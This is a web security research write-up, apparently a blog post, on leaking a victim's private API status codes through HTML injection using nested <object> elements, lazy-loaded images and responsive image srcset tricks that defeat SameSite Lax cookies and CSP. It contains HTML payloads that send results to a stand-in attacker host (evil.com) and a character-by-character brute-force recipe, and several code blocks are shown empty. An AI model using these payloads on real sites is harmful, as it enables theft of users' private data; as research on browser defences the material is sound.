

# From XS-Leaks to SS-Leaks Using \<object>

<figure><figcaption></figcaption></figure>

Nowadays, [cross-site leaks (XS-Leaks)](https://xsleaks.dev/) are often limited by _SameSite_ settings. This is because XS-Leaks rely on a malicious page being able to send a victim's cookies to a cross-site target in order to infer the victim's state.

<figure><figcaption></figcaption></figure>

Many XS-Leak techniques rely on being able to fetch a resource through _non_-top-level navigations, such as an `iframe` element, `script` element, or `fetch()` request. However, _SameSite: Lax_ cookies will only be sent on top-level navigations, i.e. navigations that change the URL in the browser's address bar.

This means that for most techniques, _SameSite: Lax_ cookies are an effective defence. Of course, this does not include the man_y_ classes of XS-Leaks that still work with top-level navigations such as `window.open` popups. But for practical purposes, this stops a lot of XS-Search attacks.

For instance, consider a scenario where an API returns a 200 status code response if results match a given search query, and a 404 status code otherwise. This is behaviour that one might expect from a search API — for example, on a social media site, being able to leak status codes could mean the ability to leak private posts, friends, and contacts. If the cookies were _SameSite: None_, stealing data would be trivial:

1. Create a `script` element, and sets its `src` to the cross-origin target URL. <mark style="color:yellow;">`https://target.com/api/search?query=secret`</mark>.
2. Define an `onload` handler and an `onerror` handler for the script.
3. Finally, insert the `script` element into the DOM.
4. If the target URL returns a 200 status code, the `onload` handler is executed. Otherwise, the `onerror` handler is executed.
5. Repeat steps 1 to 4, brute-forcing the search query character by character until the secret is extracted.

However, if _SameSite: Lax_ cookies were used, this attack would not be possible. This is quite a big problem, since Chromium has been enforcing lax-by-default since 2020. More recently, Firefox also rolled out [Total Cookie Protection](https://blog.mozilla.org/en/mozilla/firefox-rolls-out-total-cookie-protection-by-default-to-all-users-worldwide/), which blocks cross-site cookies through subresources by default.

These defences pose the question: is there a way to turn "cross-site" leaks into "same-site" leaks?

## SS-Leaks?

Suppose we have some HTML injection on a target application. Because of restrictive CSP or sanitization, XSS is not possible. Can we still leak information about the victim? There are techniques such as dangling markup injection for leaking content from the same URL, but what if we want to leak data from another URL, such as an API endpoint? Furthermore, modern client-side sanitisers ensure that the resulting HTML is well-formed — how do we leak data then?

Consider the above scenario where we want to leak 200 vs 404 status codes. Now we have _SameSite: Lax_ cookies, but an HTML injection on a same-site page. Our goal is to leak whether this API endpoint returns a 200 or 404 status code.

```javascript
app.get('/api/v1/leaky', (req, res) => {
  if (SECRET.startsWith(req.query.secret)) {
    res.status(200).send('Yes');
  } else {
    res.status(404).send('No');
  }
});
```

## Object Leaks

The `<object>` element differs from iframes in a major way. If the status code of the requested resource is 404, the object is not at all rendered in the DOM. While the `object` element exists in the DOM tree, none of the page contents are actually rendered in the DOM.

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>object pointing to a 404 page</p></figcaption></figure>

This is in stark contrast to iframes, which render content in the DOM regardless of status codes.

<figure><figcaption><p>iframe of a 404 page</p></figcaption></figure>

What we ideally want to do is conditionally load a resource based on the leaky endpoint's status code. If we can do this, the conditionally-loaded resource can then serve as a callback, leaking the data _cross-site_. This brings us to nested `<object>`s!

## Nested Objects

In the following object, the nested callback object is only loaded as a fallback.

If the <mark style="color:yellow;">`/api/v1/leaky?secret=a`</mark> endpoint returns a 404 status code, then the inner `object` is loaded, giving a callback to <mark style="color:yellow;">`https://evil.com?callback=a`</mark> and letting us know that the search query `a` yielded no results.

```html
<object data="/api/v1/leaky?secret=a">
    <object data="https://evil.com?callback=a"></object>
</object>
```

## Lazy Loading

What if CSP blocks external objects? Let's try again with the following CSP:

<mark style="color:yellow;">`Content-Security-Policy: default-src 'self'; img-src *;`</mark>

Our callback `object` from above no longer works. In its place, we can use image [lazy loading](https://developer.mozilla.org/en-US/docs/Web/Performance/Lazy\_loading)! The following image will only load when it is visible and within a certain distance from the viewport.

```html
<object data="/api/v1/leaky?secret=a">
    
</object>
```

When the leaky endpoint returns a 200 status code, the response is rendered in the DOM. As a result, the nested `img` is not visible. Since the image has lazy loading enabled, it will not be fetched and we do not receive a callback.

<figure><figcaption><p>200 status code response</p></figcaption></figure>

On the other hand, if the leaky endpoint returns a 404, the `img` is rendered as a fallback. This causes a request to be made to our callback!

<figure><figcaption><p>404 status code response</p></figcaption></figure>

## Responsive Images

The above technique is great, but it relies on our HTML injection being within the user's viewport.

If the injection is off-screen and the user doesn't scroll, can we still leak data? Of course, we can use element IDs and [scroll-to-text-fragment](https://chromestatus.com/feature/4733392803332096) to create a URL that forces a scroll, but these rely on user interaction and don't allow us to achieve consistent leaks in a real-world scenario. Ideally, we want to weaponise stored HTML injection in a reliable manner.

Enter responsive images! Specifically, the `srcset` and `sizes` attributes of images.


```html
<object data="/api/v1/leaky?secret=a">
    <iframe srcdoc="" width="1000px">
</object>
```


There's quite a few things to unpack here. First, remember that the inner iframe will only be visible if the leaky endpoint returns a 404 status code.

This is important because we are now going to conditionally load the image within the iframe from two different URLs. Using the `sizes` attribute, we can use [media queries](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS\_media\_queries/Using\_media\_queries) to choose which URL to load the image from, depending on the viewport size.


```html

```


Because our iframe has `width="1000px"`, the following happens:

1. If the leaky endpoint returns a 404 status code, the iframe is displayed and has a width of 1000px. The image within the iframe matches the `(min-width: 1000px)` media query and loads the 800px image from `https://evil.com?callback=0`.
2. If the leaky endpoint returns a 200 status code, the iframe is _not_ displayed. Since the image is not being rendered as part of a large iframe, it matches the `(max-width 999px)` media query and loads the 480px image from `https://evil.com?callback=1`.

We now have a way of reliably performing the leak, even with a rather restrictive CSP.
